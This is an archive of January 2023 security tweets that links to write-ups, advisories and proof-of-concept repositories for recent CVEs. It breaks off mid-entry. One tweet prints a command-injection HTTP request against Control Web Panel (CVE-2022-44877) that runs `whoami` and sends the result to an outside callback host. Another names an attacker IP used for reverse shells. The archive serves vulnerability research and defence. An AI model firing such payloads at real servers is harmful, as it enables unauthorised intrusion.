# Paul091_
**https://twitter.com/Paul091_/status/1615176716422631424 _at 2023-01-17, 02:38:32_**
<blockquote>
Uploaded Poc of CVE-2022-21881 used for Chrome SBX

https://t.co/PqWlbNzfob
</blockquote>

* https://github.com/dbgsymbol/windows_lpe_pocs/blob/main/cve-2022-21881-io_completion-poc.cpp

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---

# ReconOne_bk
**https://twitter.com/ReconOne_bk/status/1614336904597573640 _at 2023-01-14, 19:01:25_**
<blockquote>
Hackers leveraged a zero-day #vulnerability (CVE-2022-42475) in FortiOS SSL-VPN to target governments and large organizations.

(nuclei template available soon)

#cybersecurity #Fortinet #0day
https://t.co/3C11i5zaHF
</blockquote>

* https://thehackernews.com/2023/01/fortios-flaw-exploited-as-zero-day-in.html?m=1

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1613927091426451456 _at 2023-01-13, 15:52:58_**
<blockquote>
Indicators of Compromise for #ManageEngine CVE-2022-47966:
🔺Log File Entries
🔺Shodan Exposure
🔺Potential Post-Exploitation Activities

Deep-dive blog and POC will be released next week.

https://t.co/0MQvvozGgQ

Awesome effort by @JamesHorseman2, Naveen, and @hacks_zach
</blockquote>

* https://www.horizon3.ai/manageengine-cve-2022-47966-iocs/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# NSA_CSDirector
**https://twitter.com/NSA_CSDirector/status/1613850710453501955 _at 2023-01-13, 10:49:27_**
<blockquote>
Active exploitation of Centos Control Web Panel through CVE-2022-44877.  Patch issued in Oct. Exploitation is picking up. Attackers can get elevated privileges and remote code execution, leading to dangerous exploitation.  Close down this vulnerability.  

https://t.co/k3N1Fynk4E
</blockquote>

* https://arstechnica.com/information-technology/2023/01/vulnerability-with-9-8-severity-in-control-web-panel-is-under-active-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# AnonOpsSE
**https://twitter.com/AnonOpsSE/status/1613834598571560960 _at 2023-01-13, 09:45:26_**
<blockquote>
A #vulnerability (CVE-2022-42475) in FortiOS SSL-VPN was exploited by hackers as a "zero-day" to attack governments and large organizations before #Fortinet fixed it.

https://t.co/NWitGQH8GE
</blockquote>

* https://thehackernews.com/2023/01/fortios-flaw-exploited-as-zero-day-in.html?m=1

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1613834093434925059 _at 2023-01-13, 09:43:26_**
<blockquote>
A #vulnerability (CVE-2022-42475) in FortiOS SSL-VPN was exploited by hackers as a "zero-day" to attack governments and large organizations before #Fortinet fixed it.

Details: https://t.co/OPRoYakewo

#infosec #cyberattack #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2023/01/fortios-flaw-exploited-as-zero-day-in.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>226</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1613380836660748288 _at 2023-01-12, 03:42:21_**
<blockquote>
Reproducing the recent #ManageEngine CVE-2022-47966 pre-auth RCE, which affects nearly all of their products, has definitely been eye-opening about some recent SAML research that flew under our radar. POC and blog to come.

Credit to the original researcher @_l0gg, nice find! https://t.co/qpkNZYH3c6
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>187</code></td>
</tr></table>

---

# Din3zh
**https://twitter.com/Din3zh/status/1613251535378456591 _at 2023-01-11, 19:08:33_**
<blockquote>
Writeup and exploit for CVE-2022-20452, privilege escalation on Android 13 via Parcel use-after-recycle() - https://t.co/Ql2Hlrjppl #MobileSecurity #Android #RCE by @BednarTildeOne https://t.co/oqLV0p6O5G
</blockquote>

* https://github.com/michalbednarski/LeakValue

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1613235576626372608 _at 2023-01-11, 18:05:08_**
<blockquote>
🚨 Ongoing mass exploitation of CVE-2022-44877 (Centos Web Panel 7 Unauthenticated Remote Code Execution).

Source: 206.189.170.136 🇺🇸

Malicious Base64 payload is a reverse shell that connects to 206.189.170.136:9181

The scanning of CWP instances started around January 06th. https://t.co/PC8b9frmA9
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---

# 0x_Havoc
**https://twitter.com/0x_Havoc/status/1613204145892388864 _at 2023-01-11, 16:00:14_**
<blockquote>
Day - 4⃣ of  #100DaysOfHacking 
1. Completed 'Injections, XXE and Insecure Deserialization' part from @appsecsecurity course

2. Brush up on some basic misconfigs: NFS &amp; SMTP exploitation

3. CVE-2022-38627:  https://t.co/zasTnzYO0C
</blockquote>

* https://infosecwriteups.com/cve-2022-38627-a-journey-through-sqlite-injection-to-compromise-the-whole-enterprise-building-15cebd072ed6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1613113660817412099 _at 2023-01-11, 10:00:41_**
<blockquote>
Heads up! We are seeing CVE-2022-44877 exploitation attempts for CWP (CentOS Web Panel/Control Web Panel) instances. This is an unauthenticated RCE. Exploitation is trivial and a PoC published. Exploitation first observed Jan 6th. 

Make sure to patch - https://t.co/SqOTMW6ZNG
</blockquote>

* https://control-webpanel.com/changelog#1669855527714-450fb335-6194

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# _l0gg
**https://twitter.com/_l0gg/status/1613017142190026756 _at 2023-01-11, 03:37:09_**
<blockquote>
CVE-2022-47966, a SAML bug lead to Pre-Auth RCE.
ManageEngine got hit, &gt;10 products (Including ADSelfService Plus, ADAudit Plus, AppManager, PMP, ServiceDesk,..) is vulnerable when SAML is enabled or even is configured.

https://t.co/mfmWwrMReG
#CVE-2022-47966 #SAML
</blockquote>

* https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>222</code></td>
</tr></table>

---

# timstrazz
**https://twitter.com/timstrazz/status/1612864115483246592 _at 2023-01-10, 17:29:05_**
<blockquote>
This is a great write up for CVE-2022-20452 and Parcel Hardining in Android https://t.co/2VZbhTVLZL
</blockquote>

* https://github.com/michalbednarski/LeakValue

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1612547294343077900 _at 2023-01-09, 20:30:09_**
<blockquote>
RCE on NETGEAR R6700v3 (CVE-2022-27643), buffer overflow vulnerability in Universal Plug and Play daemon (upnpd)
Witeup by @relyze 

https://t.co/8AqTj3xmjt 

#embedded #iot #infosec #cybersecurity #cve https://t.co/qwFXEHpKN8
</blockquote>

* https://blog.relyze.com/2022/03/cve-2022-27643-netgear-r6700v3-upnpd.html

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1612293798004162560 _at 2023-01-09, 03:42:51_**
<blockquote>
Exchange TabShell RCE PoC (CVE-2022-41076) 
(Just copy paste the poc from @vcslab's blog post)
Still wondering why this vulnerability is so underrated xD
PoC script (for copy paste purpose): https://t.co/4jLfIxXkC3
https://t.co/nHrJvpxqVn
</blockquote>

* https://gist.github.com/testanull/518871a2e2057caa2bc9c6ae6634103e
* https://youtu.be/i4JcvwVuCSU

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>312</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1612203946130526208 _at 2023-01-08, 21:45:48_**
<blockquote>
CVE-2021-38003：A Hole New World - how a small leak will sink a great browser (V8 based)
https://t.co/oSuaewSdrP
And another method:
https://t.co/O0MX4awEFB
</blockquote>

* https://defense.one/d/51-cve-2021-38003a-hole-new-world-how-a-small-leak-will-sink-a-great-browser
* https://medium.com/numen-cyber-labs/from-leaking-thehole-to-chrome-renderer-rce-183dcb6f3078

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>151</code></td>
</tr></table>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1612068225046675457 _at 2023-01-08, 12:46:30_**
<blockquote>
#CVE-2022-44877 Control Web Panel Unauth #RCE 

POC: 
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&amp;password=toor&amp;commit=Login https://t.co/TkSmCutTqv
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1611807395130253315 _at 2023-01-07, 19:30:03_**
<blockquote>
Cool writeup by @Gr33nh4t on using Apport crash handler for privilege escalation in Ubuntu (CVE-2021-25682)

https://t.co/cLhsDMMTTl 

#lpe #exploit #cve #infosec #cybersecurity https://t.co/7zQkGWO5wj
</blockquote>

* https://alephsecurity.com/2021/02/16/apport-lpe/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1611367859958972419 _at 2023-01-06, 14:23:30_**
<blockquote>
Rackspace confirmed that the Play #ransomware gang was responsible for last month's breach. The attack used a zero-day exploit related to CVE-2022-41080 to gain initial access to the company's email environment.

Read: https://t.co/Y6EAsqhK5s

#malware #ransomware #hacking
</blockquote>

* https://thehackernews.com/2023/01/rackspace-confirms-play-ransomware-gang.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# sirifu4k1
**https://twitter.com/sirifu4k1/status/1611223136254726145 _at 2023-01-06, 04:48:25_**
<blockquote>
Centos Web Panel 7 Unauthenticated Remote Code Execution - CVE-2022-44877
#CVE #RCE  https://t.co/Ov2ENYDIKR
</blockquote>

* https://github.com/numanturle/CVE-2022-44877

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1611222994524966912 _at 2023-01-06, 04:47:51_**
<blockquote>
Two high severity vulnerabilities have been discovered in Rocket TRUfusion Enterprise: an authentication bypass issue (CVE-2022-25026) and server-side request forgery (CVE-2022-25027).

https://t.co/cxikpIB8jV

#infosec
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-25026-cve-2022-25027-vulnerabilities-in-rocket-trufusion-enterprise/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# rskvp93
**https://twitter.com/rskvp93/status/1611202612065628163 _at 2023-01-06, 03:26:52_**
<blockquote>
I learned a lot about internal Powershell working when I go through TabShell bug #CVE-2022-41076. Here is the detail https://t.co/lJb7OjPzMj. And a few problems still there and may be need more investigation. with @_q5ca, @hoangnx99
</blockquote>

* https://blog.viettelcybersecurity.com/tabshell-owassrf/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>321</code></td>
</tr></table>

---

# numanturle
**https://twitter.com/numanturle/status/1611055986105802752 _at 2023-01-05, 17:44:13_**
<blockquote>
Centos Web Panel 7 Unauthenticated Remote Code Execution - CVE-2022-44877
@gaissecurity 
https://t.co/bTtguNbe2Q
</blockquote>

* https://github.com/numanturle/CVE-2022-44877

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1610982205836206082 _at 2023-01-05, 12:51:03_**
<blockquote>
My friend Arnim R. pointed out in a private chat that a malware or published exploit code for the SPNEGO NEGOEX RCE vulnerability in Windows systems (CVE-2022-37958) could have devastating effects considering the current exposure

https://t.co/cLKD3XEfVH https://t.co/B6Dz4mGdSq
</blockquote>

* https://www.shodan.io/search/facet?query=port%3A3389+ntlm&facet=os

<table><tr>
